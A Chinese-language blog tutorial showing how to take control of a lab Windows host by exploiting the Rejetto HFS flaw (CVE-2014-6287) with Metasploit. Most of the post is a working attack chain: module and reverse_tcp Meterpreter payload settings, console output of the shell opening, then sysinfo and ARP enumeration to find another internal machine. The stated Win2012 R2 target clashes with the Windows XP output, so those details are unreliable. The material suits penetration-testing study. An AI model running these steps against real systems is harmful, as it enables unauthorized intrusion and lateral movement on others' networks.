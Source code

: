 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用Metasploit获取目标的控制权限
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 使用Metasploit获取目标的控制权限
lock: need
---
```


# 使用Metasploit获取目标的控制权限

攻击机： Kali 192.168.175.128

靶机： Win2012 R2 192.168.175.130

在上一篇《[对威胁建模(附加搭建CVE:2014-6287漏洞环境](https://blog.csdn.net/l1028386804/article/details/86567192))》中，我们确定了目标系统的漏洞和Metasploit的可利用模块，接下来我们就真正获取目标的控制权限。

```
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOST 192.168.175.130
set RPORT 8080
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.175.128
exploit
```

具体操作如下：

```
msf5 > use exploit/windows/http/rejetto_hfs_exec 
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOST 192.168.175.130
RHOST => 192.168.175.130
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.175.130  yes       The target address range or CIDR identifier
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Using URL: http://0.0.0.0:8080/OHqKAjyg9dj9u
[*] Local IP: http://192.168.175.128:8080/OHqKAjyg9dj9u
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /OHqKAjyg9dj9u
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1091) at 2019-01-23 11:32:15 +0800
[!] Tried to delete %TEMP%\OmpsEelxzVs.vbs, unknown result
[*] Server stopped.

meterpreter > 
```

执行完后，我们就获得了目标主机的控制权。

接下来，我们看看内网中有没有其他主机，如下所示：

```
meterpreter > sysinfo
Computer        : LIUYAZHUANG
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
meterpreter > arp

ARP cache
=========

    IP address       MAC address        Interface
    ----------       -----------        ---------
    192.168.175.2    00:50:56:e7:f5:30  2
    192.168.175.128  00:0c:29:68:65:5b  2
    192.168.175.131  00:0c:29:cf:f6:ac  2

meterpreter > 
```

可以看到内网中有一台192.168.175.131的主机。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
